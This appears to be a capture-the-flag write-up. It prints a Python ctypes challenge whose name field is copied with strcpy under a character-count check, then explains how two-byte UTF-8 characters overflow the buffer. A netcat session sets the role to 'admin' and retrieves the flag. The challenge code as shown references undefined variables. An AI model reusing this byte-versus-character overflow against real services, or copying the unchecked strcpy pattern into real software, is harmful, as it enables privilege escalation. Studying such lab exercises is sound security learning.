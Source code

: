 ```python
#!/usr/bin/env python3
import ctypes
from ctypes import c_byte
import ctypes.util


libc = ctypes.CDLL(ctypes.util.find_library("c"))

class User(ctypes.Structure):
    _fields_ = [("name", c_byte * 16), ("role", c_byte * 8)]

user_str = ctypes.create_string_buffer(b"user")
admin_str = ctypes.create_string_buffer(b"admin")

user = User()
libc.strcpy(user.role, user_str)

addr = hex(int(y, 16))
name = input("What is your name: ")

if len(name) > 15:
    print("Your name is too long")
    exit()

name_str = ctypes.create_string_buffer(name.encode())
libc.strcpy(user.name, name_str)

libc.printf(b"Hello, your name is %s and your role is %s\n", user.name, user.role)
libc.fflush(None)

if libc.strcmp(user.role, admin_str) == 0:
    print(f"You are an admin so here is the flag: {flag}")
else:
    print("Sorry, only admins can see the flag")
```

- So we need to overflow the "name" part of the struct, which is 16 bytes, into the role part which is 8 bytes.
	- the issue here is the if condition which checks `len(name) > 15`
	- Solution: We need some character which gives `len(x) = 1` but is somehow longer
	- Python checks for (utf-8??) english characters, and norwegians characters have the property that:

```python
In [43]: "Å".encode()
Out[43]: b'\xc3\x85'

In [44]: "A".encode()
Out[44]: b'A'
```
- Each character is two bytes!
- further:
```python
In [52]: x = "ÅÅÅÅÅÅÅÅ"

In [53]: len(x)
Out[53]: 8
```
- meaning we now have filled the name buffer of 16 bytes with only 8 characters!
- consequently:
```
$ nc 10.212.138.23 12688 
What is your name: ÅÅÅÅÅÅÅÅadmin 
Hello, your name is ÅÅÅÅÅÅÅÅadmin and your role is admin
You are an admin so here is the flag: S2G{b8fb29b9b10126adbf2b317d688ea203}
```